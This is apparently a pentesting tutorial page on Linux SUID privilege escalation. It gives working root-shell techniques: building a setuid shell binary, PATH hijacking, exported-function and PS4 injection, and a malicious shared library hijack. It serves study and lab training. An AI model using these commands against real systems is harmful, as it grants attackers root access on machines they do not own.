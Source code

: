 # SUID Binaries

## Theory

SUID/Setuid stands for "set user ID upon execution", it is enabled by default in every Linux distributions. If a file with this bit is run, the uid will be changed by the owner one. If the file owner is `root`, the uid will be changed to `root` even if it was executed from user `bob`. SUID bit is represented by an `s`.

## Practice

### Misc SUID Binaries

{% tabs %}
{% tab title="Find" %}
We can use this command to find all SUID binaries

```bash
find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
find / -perm -4000 -type f 2>/dev/null
```
{% endtab %}

{% tab title="Create" %}
Here is how to create a SUID binary

```bash
print 'int main(void){\nsetresuid(0, 0, 0);\nsystem("/bin/sh");\n}' > /tmp/suid.c   
gcc -o /tmp/suid /tmp/suid.c  
sudo chmod +x /tmp/suid # execute right
sudo chmod +s /tmp/suid # setuid bit
```
{% endtab %}

{% tab title="Known Exploits" %}
If you find that a binary have the SUID bits, you can check on [GTFOBins](https://gtfobins.github.io/) for known SUID exploits.
{% endtab %}
{% endtabs %}

### No Command Path Exploit

{% tabs %}
{% tab title="Enumerate" %}
If a **suid** binary executes another command **without specifying the path.** We can abuse it and get a privilege escalation.

You may use `strings` to spot other binaries calls, or do some reverse engineering on the **suid** binary.

```bash
strings ./the-suid-bin

...
find
...
```
{% endtab %}

{% tab title="Exploit" %}
We can create a malicious executable with the same name as the one called by the **suid** binary.

```bash
echo '/bin/bash -p' > /tmp/find
chmod +x /tmp/find
```

\
Then, set the **PATH** env variable before executing the SUID binary.

```bash
#Sudo with modified PATH
export PATH=/tmp:$PATH 
./the-suid-bin
```
{% endtab %}
{% endtabs %}


### Functions Export Exploit - Full Path Binary

{% tabs %}
{% tab title="Enumerate" %}
If the **suid** binary executes another command specifying the full path, then, we can try to **export a function** named as the command that the suid file is calling.

You may use `strings` to spot others binary/command calls, or do some reverse engineering on the **suid** binary.

```bash
strings ./the-suid-bin

...
/usr/sbin/service apache2 start
...
```
{% endtab %}

{% tab title="Exploit" %}
we can try to **export a function** named as the command that the suid file is calling.

For example, if a suid binary calls /usr/sbin/service apache2 start you have to try to create the function and export it: 
```bash
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
export -f /usr/sbin/service
```

Then, execute the SUID binary.
```bash
./the-suid-bin
```

**An other method** is to type the following command:
```bash
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp && chown root.root /tmp/bash && chmod +s /tmp/bash)' /bin/sh -c './the-suid-bin; set +x; /tmp/bash -p'
```
{% endtab %}
{% endtabs %}

### Shared Library Hijacking

{% tabs %}
{% tab title="Enumerate" %}
If you find some binary with **SUID** permissions, you could check if all the **.so** files are **loaded correctly**

```bash
strace the-suid-bin 2>&1 | grep -i -E "open|access|no such file"
```

You also could check if the **SUID** binary is loading a library from a folder **where we can write**:

```bash
# Lets find a SUID using a non-standard library
ldd the-suid-bin
something.so => /lib/x86_64-linux-gnu/something.so

# The SUID also loads libraries from a custom location where we can write
readelf -d the-suid-bin | grep PATH
0x000000000000001d (RUNPATH)            Library runpath: [/development]
```

Alternatively, you could use the `strings` command to find used shared library

```bash
strings ./the-sudo-bin | grep -i '*.so*'
```
{% endtab %}

{% tab title="Exploit" %}
For example, if you find that the **suid** binary **doesn't** **load correctly** _`/home/user/.config/libcalc.so`_ or that you can overwrite it, you can exploit it.

Write a malicious shared library

```c
//Saved to /home/user/.config/libcalc.c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

Compile it

```bash
gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c
```

Execute the SUID binary

```bash
./SUID-BINARY
```

{% hint style="info" %}
If you get an error such as

```shell-session
./suid_bin: symbol lookup error: ./suid_bin: undefined symbol: a_function_name
```

that means that the library you have generated need to have a function called `a_function_name`.
{% endhint %}
{% endtab %}
{% endtabs %}


### References

{% embed url="https://book.hacktricks.xyz/linux-hardening/privilege-escalation" %}

{% embed url="https://tryhackme.com/room/linuxprivescarena" %}
